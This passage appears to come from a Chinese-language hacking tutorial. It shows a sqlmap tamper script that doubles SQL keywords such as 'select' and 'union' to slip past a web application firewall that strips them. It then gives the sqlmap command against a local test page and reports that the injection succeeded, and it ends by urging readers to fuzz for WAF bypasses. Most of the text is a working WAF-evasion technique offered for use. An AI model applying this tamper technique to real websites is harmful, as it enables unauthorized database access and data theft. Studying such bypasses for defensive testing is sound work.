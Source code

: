 def tamper(payload, **kwargs):
    playload = payload.replace('and','anandd')
    playload = playload.replace('xor', 'xoxorr')
    playload = playload.replace('select', 'selselectect')
    playload = playload.replace('union', 'uniunionon')
    playload = playload.replace('if', 'iiff')
    return playload
```  

放到tamper目录下  

```Sqlmap.py -u “http://127.0.0.1/news.php?id=1” --purge --tamper “andand.py”```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/7/11.png)  

OK，已经注入出来了  

方法大同小异，了解waf特征，fuzz bypass
